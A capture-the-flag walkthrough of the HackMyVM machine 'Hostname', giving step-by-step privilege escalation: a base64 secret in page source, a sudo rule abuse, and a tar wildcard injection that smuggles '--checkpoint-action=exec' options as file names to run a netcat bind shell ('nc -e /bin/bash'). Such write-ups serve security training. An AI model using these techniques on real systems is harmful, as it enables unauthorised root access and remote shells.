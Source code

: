 ```yaml
---
title: "Hostname - Avijneyam"
excerpt: " "
comments: true
categories:
  - Hacking
  - Walkthrough
tags:
  - Hacking
  - Walkthrough
  - HackMyVM
  - Hostname
header:
  overlay_image: /assets/images/pasek-hack.png
---
```

# Hostname - Avijneyam
{: .text-justify}

## 00. Metainfo

|:----|:----|
|Title:|Hostname|
|Author:|[avijneyam](https://hackmyvm.eu/profile/?user=avijneyam)|
|Release date:|2022-05-04|
|Download from:|[HackMyVM](https://hackmyvm.eu/machines/machine.php?vm=Hostname)|
|Level:|Easy|
|System:|Linux|
|You'll learn:|Web-tools|

# 01. Entry
In the source code, you will find this:
{: .text-justify}
<code>
<script crossorigin="<span style="background-color: yellow;">S3VuZ19GdV9QNG5kYQ==</span>" src='https://cdnjs.cloudflare.com/ajax/libs/jquery/2.1.3/jquery.min.js'></script>
</code>

Decode it:
{: .text-justify}
```bash
echo -n 'S3VuZ19GdV9QNG5kYQ==' | base64 -d  #Secret Word
```
Use the **HackBar v2** plugin for Firefox and You got a password for SSH.
{: .text-justify}
![HackBar v2](/assets/images/hacking/2024/02/01.png)
# 02. SSH
Log in to the console as user **po**.
{: .text-justify}
```bash
export IP=172.16.1.240
ssh po@$IP 
```
## a. User oogway
```bash
cat /etc/sudoers.d/po
```
```bash
# po HackMyVM = (oogway) NOPASSWD: /bin/bash
```
```bash
sudo -u oogway -h HackMyVM bash
```
```bash
cat /etc/crontab
```
![crontab](/assets/images/hacking/2024/02/02.png)
# b. user root
```bash
cd /opt/secret/
touch -- --checkpoint=1
touch -- "--checkpoint-action=exec=sh exploit"
echo "nc -e /bin/bash -lvp 1234" > exploit
```
Wait a minute.
{: .text-justify}
```bash
nc localhost 1234
```